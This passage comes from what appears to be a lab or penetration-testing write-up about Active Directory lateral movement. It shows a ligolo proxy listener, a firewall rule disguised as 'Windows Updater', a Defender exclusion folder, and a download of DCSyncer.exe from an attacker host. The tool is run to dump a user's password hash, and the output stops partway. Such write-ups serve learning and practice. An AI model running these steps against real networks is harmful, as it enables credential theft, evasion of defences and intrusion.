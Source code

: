 Since <b>g.watson is part of the capturer group</b>, we need to find valid credentials for an approver. We know that <b>a.holt user is member of the approver</b>, since we foud the welcome message on the JMP host, inspecting his appdata folder, I noticed that the saved password default file for Chrome is present: <b>C:\Users\a.holt\AppData\Local\Google\Chrome\User Data\Default\Login Data</b>.
The file is encrypted using the CryptProtectData DPAPI function. In theory could be possible to extract the hash in some way without being logged in as the corresponding user, to try to crack it offline, but it seemed to me overcomplicated. A faster approach in this situation, try to follow the KIS principle, could be performing a DCSync attack to get the NTLM hash of a.holt user. An even faster solution would be changing directly a.holt password but in a real engagement this action will be noticed for sure.
On ligolo proxy I set another listener on the session 2 (the one coming froom rootdc), to forward the request on port 8000 of rootdc to the same port on our attacker machine, that exposes the python webserver:

	listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp

Since we want to access the service from a remote host (bankdc) to download the DCSyncer file, we need to open the corresponding port on rootdc firewall (powershell as administrator):

	New-NetFirewallRule -DisplayName 'Windows Updater' -Profile 'Domain' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8000
	Name                  : {060a00ee-3d26-4e9a-bd8b-97793f28127b}
	DisplayName           : FWD Web Server
	...
	Enabled               : True
	Profile               : Domain
	Platform              : {}
	Direction             : Inbound
	Action                : Allow
	EdgeTraversalPolicy   : Block
	LooseSourceMapping    : False
	LocalOnlyMapping      : False
	Owner                 :
	PrimaryStatus         : OK
	Status                : The rule was parsed successfully from the store. (65536)
	EnforcementStatus     : NotApplicable
	PolicyStoreSource     : PersistentStore
	PolicyStoreSourceType : Local

Now from the bankdc host we can proceed to download the DCSyncer.exe from the attacker machine, visiting the following URL:

 	http://10.200.89.100:8000/DCSyncer.exe
 
As usual I set an exclusion folder to windows defender and saved the file there. Then I executed the attack:

	PS C:\Users\it.support_bank\def-exc> .\DCSyncer-x64.exe > sync.txt
 
Searching the file for a.holt we can read the hashed password for the user:

	Object RDN           : a.holt
	SAM Username         : a.holt
	User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
	Object Security ID   : S-1-5-21-3455338511-2124712869-1448239061-1155
	Object Relative ID   : 1155
	